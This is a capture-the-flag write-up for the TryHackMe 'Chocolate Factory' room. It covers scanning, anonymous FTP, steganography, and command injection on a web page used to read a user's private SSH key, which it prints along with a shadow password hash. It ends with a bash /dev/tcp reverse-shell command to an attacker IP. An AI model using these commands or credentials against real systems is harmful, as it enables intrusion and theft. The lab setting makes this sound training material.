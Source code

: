 # Chocolate Factory themed CTF writeup | Tryhackme.com



First scan the machine with nmap:
nmap -A -T5 -v <**ip**>

![nmap1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/nmap1.png)

![nmap1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/nmap2.png)  

The open ports:

- 21 - ftp
- 22 - ssh
- 80 - http 
- 100, 106, 109, 110, 111, 113, 119, 125 - these TCP ports display the same banner.

Anonymous FTP login is allowed so let’s try that and see what we find

![ftp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/ftp.png)

Download gum_room.jpg to our machine. Maybe there is something hidden behind this picture. 
We can find it out with steghide.

Use: steghide extract -sf <**file**>

![steghide](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/steghide.png)

The txt seems to be a base64 encoded text so let’s decode it in the terminal\
` cat b64.txt | base64 -d `

It seems to be an etc/shadow file and there is a user named charlie\
*charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::*


Let’s find the subdomains using gobuster\
`gobuster dir -u http://<ip>/ -w /usr/share/dirb/wordlists/common.txt -x php,html,sh,txt`

![gobuster](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/gobuster1.png)

First check out **Index.html**. \ **Home.php** also seems interesting, let’s navigate there aswell.

Index.html is a login page, let’s see the source code.
![index](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/website_indexhtml.png)

Index.html is a login page, let’s see the source code.

![src_code](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/source_code.png)

**Validate.php:**

<script>alert('Incorrect Credentials');</script><script>window.location='index.html'</script>
Validate


Now to the interesting part: **home.php**

![homephp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/homephp.png)

There is a command injection page in here. Let’s try a few

`ls:`

    home.jpg home.php image.png index.html index.php.bak key_rev_key validate.php 

    So there is a key in this directory. Let’s see what it has.

`cat key_rev_key`

    copy it and echo to terminal to see it better 

    Enter your name: %slaksdhfas congratulations you have found the key: b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=' Keep its safeBad name!

    See other directories aswell.

`pwd:`

    /var/www/html

`ls /home`

    user named charlie

`ls /home/charlie`

    teleport teleport.pub user.txt

user.txt is not readable
teleport.pub is the ssh public key and teleport is the private key


`cat /home/charlie/teleport`

<span style="color:gray">
-----BEGIN RSA PRIVATE KEY----- MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW 1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj B3zgov7RUtk15Jv11D0Itsyr54pvYhCQgdoorU7l42EZJayIomHKon1jkofd1/oY fOBwgz6JOlNH1jFJoyIZg2OmEhnSjUltZ9mSzmQyv3M4AORQo3ZeLb+zbnSJycEE RaObPlb0dRy3KoN79lt+dh+jSg/dM/TYYe5L4wIDAQABAoIBAD2TzjQDYyfgu4Ej Di32Kx+Ea7qgMy5XebfQYquCpUjLhK+GSBt9knKoQb9OHgmCCgNG3+Klkzfdg3g9 zAUn1kxDxFx2d6ex2rJMqdSpGkrsx5HwlsaUOoWATpkkFJt3TcSNlITquQVDe4tF w8JxvJpMs445CWxSXCwgaCxdZCiF33C0CtVw6zvOdF6MoOimVZf36UkXI2FmdZFl kR7MGsagAwRn1moCvQ7lNpYcqDDNf6jKnx5Sk83R5bVAAjV6ktZ9uEN8NItM/ppZ j4PM6/IIPw2jQ8WzUoi/JG7aXJnBE4bm53qo2B4oVu3PihZ7tKkLZq3Oclrrkbn2 EY0ndcECgYEA/29MMD3FEYcMCy+KQfEU2h9manqQmRMDDaBHkajq20KvGvnT1U/T RcbPNBaQMoSj6YrVhvgy3xtEdEHHBJO5qnq8TsLaSovQZxDifaGTaLaWgswc0biF uAKE2uKcpVCTSewbJyNewwTljhV9mMyn/piAtRlGXkzeyZ9/muZdtesCgYEA4idA KuEj2FE7M+MM/+ZeiZvLjKSNbiYYUPuDcsoWYxQCp0q8HmtjyAQizKo6DlXIPCCQ RZSvmU1T3nk9MoTgDjkNO1xxbF2N7ihnBkHjOffod+zkNQbvzIDa4Q2owpeHZL19 znQV98mrRaYDb5YsaEj0YoKfb8xhZJPyEb+v6+kCgYAZwE+vAVsvtCyrqARJN5PB la7Oh0Kym+8P3Zu5fI0Iw8VBc/Q+KgkDnNJgzvGElkisD7oNHFKMmYQiMEtvE7GB FVSMoCo/n67H5TTgM3zX7qhn0UoKfo7EiUR5iKUAKYpfxnTKUk+IW6ME2vfJgsBg 82DuYPjuItPHAdRselLyNwKBgH77Rv5Ml9HYGoPR0vTEpwRhI/N+WaMlZLXj4zTK 37MWAz9nqSTza31dRSTh1+NAq0OHjTpkeAx97L+YF5KMJToXMqTIDS+pgA3fRamv ySQ9XJwpuSFFGdQb7co73ywT5QPdmgwYBlWxOKfMxVUcXybW/9FoQpmFipHsuBjb Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5TznXQ7tv0Uuw7o0cy5XNMFVwn/BqQm G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln
 -----END RSA PRIVATE KEY-----
</span>

Let’s save it to a txt file.
The format is bad, can’t decrypt with john and can’t connect to ssh so let’s find an alternative way, if we don’t want to spend time finding the right format.


Alternative way:
Reverse shell

on attacker machine
`nc -nvlp 4444`

on webserver’s command line
`bash -c 'exec bash -i &>/dev/tcp/{IP}/4444 <&1'`


##### author: Dániel Varkoly
